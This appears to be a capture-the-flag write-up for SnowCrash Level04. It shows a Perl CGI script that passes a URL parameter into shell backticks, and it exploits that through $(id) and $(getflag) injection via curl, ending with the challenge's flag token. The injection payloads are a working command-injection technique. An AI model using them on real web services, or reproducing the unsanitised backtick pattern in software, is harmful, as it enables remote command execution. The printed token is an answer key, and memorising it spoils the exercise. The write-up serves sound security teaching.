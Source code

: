 # Level04

This time we have a perl script ran as flag04.

	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
	  $y = $_[0];
	  print `echo $y 2>&1`;
	}
	x(param("x"));

So the script would print the value of the parameter "x" passed as argument to stdin.
There is no input validation so we can try to send some commands : 

	level04@SnowCrash:~$ ./level04.pl 'x=$(id)'
	Content-type: text/html
	
	uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)

We are still executing as level04 and not flag04 so we can't run getflag.
However, we can see on the second line of the program that it could be run by a server.

	level05@SnowCrash:~$ netstat -tunl
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State
	tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN
	tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN
	tcp6       0      0 :::4646                 :::*                    LISTEN
	tcp6       0      0 :::4747                 :::*                    LISTEN
	tcp6       0      0 :::80                   :::*                    LISTEN
	tcp6       0      0 :::4242                 :::*                    LISTEN
	udp        0      0 0.0.0.0:68              0.0.0.0:*

There is indeed a process listening on port 4747. If we try to connect to it using nc :

	level04@SnowCrash:~$ nc localhost 4747
	x=test
	
	level04@SnowCrash:~$ nc localhost 4747
	x=$(id)

Not much going on. If we send a GET request using curl instead : 

	level04@SnowCrash:~$ curl 'localhost:4747/?x=$(id)'
	uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
	
	level04@SnowCrash:~$ curl 'localhost:4747/?x=$(getflag)'
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
